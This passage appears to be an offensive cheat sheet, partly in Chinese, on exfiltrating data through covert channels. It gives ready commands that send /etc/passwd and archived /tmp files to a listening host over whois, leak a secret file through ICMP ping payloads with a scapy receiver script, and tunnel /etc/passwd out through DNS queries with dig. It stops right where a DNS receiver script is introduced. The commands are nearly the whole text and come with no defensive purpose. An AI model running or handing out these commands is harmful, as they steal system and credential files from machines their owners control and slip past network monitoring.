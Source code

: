 ```
whois -h host_ip -p 1337 `cat /etc/passwd | base64`
```

[WHOIS + TAR](https://twitter.com/mubix/status/1102780436118409216) First:

```
ncat -k -l -p 4444 | tee files.b64  #tee to a file so you can make sure you have it
```

Next

```
tar czf - /tmp/* | base64 | xargs -I bits timeout 0.03 whois -h host_ip -p 4444 bits
```

Finally

```
cat files.b64 | tr -d '\r\n' | base64 -d | tar zxv #to get the files out
```

PING 发送端:

```
xxd -p -c 4 secret.txt | while read line; do ping -c 1 -p $line ip; done
```

接收端`ping_receiver.py`:

```python
import sys

try:
    from scapy.all import *
except:
    print("Scapy not found, please install scapy: pip install scapy")
    sys.exit(0)


def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 8:
            data = pkt[ICMP].load[-4:]
            print(f'{data.decode("utf-8")}', flush=True, end="", sep="")

sniff(iface="eth0", prn=process_packet)
```

```
python3 ping_receiver.py
```

DIG 发送端:

```
xxd -p -c 31 /etc/passwd | while read line; do dig @172.16.1.100 +short +tries=1 +time=1 $line.gooogle.com; done
```

接收端`dns_reciver.py`:
